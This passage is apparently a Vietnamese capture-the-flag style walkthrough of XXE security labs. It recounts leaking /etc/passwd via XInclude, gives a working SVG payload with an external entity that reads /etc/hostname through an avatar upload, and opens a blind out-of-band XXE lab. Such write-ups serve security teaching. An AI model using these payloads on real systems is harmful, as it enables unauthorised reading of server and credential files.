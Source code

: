 ![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_Xinclude_retirefile_passwd.png?raw=true)

Và chúng ta đã leak được file passwd.

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_Xinclude_retirefile_solve.png?raw=true)


### Lab: Exploiting XXE via image file upload
```
This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname.
```

Bài lab này mô tả khá chi tiết như sau, lồ hổng mà chúng ta cần khai thác lần này là phần comment của bài, trong phần đó cho đính kèm ảnh và bài yêu cầu chúng ta trả về file 
/etc/hostname và click Submit solution để solve bài lab.

Hint: ảnh dạng SVG sẽ có format XML :33 

Điều này đã giúp chúng ta hình dung được cách thức tấn công, truy cập bài lab và chúng ta nhận được 1 blog như sau : 

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_image_blog.png?raw=true)

Chúng ta thấy phần cmt sẽ có phần thêm avatar , từ đó chúng ta có thể thêm bất kỳ ảnh nào. Như gọi ý thì SVG sẽ có format là XML nên chúng ta tạo 1 XML như sau và lưu dưới định 
dạng svg.

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_image_cmt.png?raw=true)

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" 
version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_image_request.png?raw=true)

Payload này sẽ trả về giá trị của file /etc/hostname mà chúng ta cần. 


Giá trị của ảnh trả về như sau 
```
94a8bb1f14c8
```
![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_image_submit.png?raw=true)
![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_image_solve.png?raw=true)


### Lab: Blind XXE with out-of-band interaction
```
This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
```
